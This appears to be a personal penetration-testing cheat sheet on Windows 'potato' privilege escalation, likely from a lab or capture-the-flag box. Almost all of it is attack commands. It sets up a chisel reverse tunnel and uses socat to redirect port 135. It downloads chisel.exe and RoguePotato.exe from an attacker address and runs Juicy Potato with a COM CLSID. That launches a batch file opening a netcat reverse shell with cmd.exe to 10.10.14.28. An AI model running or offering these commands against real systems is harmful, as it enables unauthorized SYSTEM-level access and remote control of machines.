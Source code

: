 # Potatoes

setup chisel - server and client

```text
sudo ./chisel server -p 9001 --reverse

invoke-webrequest -uri 'http://10.10.14.28/chisel.exe' -outfile chisel.exe
.\chisel.exe client 10.10.14.28:9001 R:9999:127.0.0.1:9999
```

```text
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```

download rogue potato to the windows box

```text
invoke-webrequest -uri 'http://10.10.14.28/RoguePotato.exe' -outfile .\rp.exe
```

### Juicy Potato

```text
.\jp.exe -t * -p "C:\users\destitute\desktop\run.bat" -l 9999 -c '{8BC3F05E-D86B-11D0-A075-00C04FB68820}'

PS C:\users\destitute\desktop> type run.bat
C:\users\destitute\desktop\nc64.exe 10.10.14.28 4243 -e cmd.exe
```


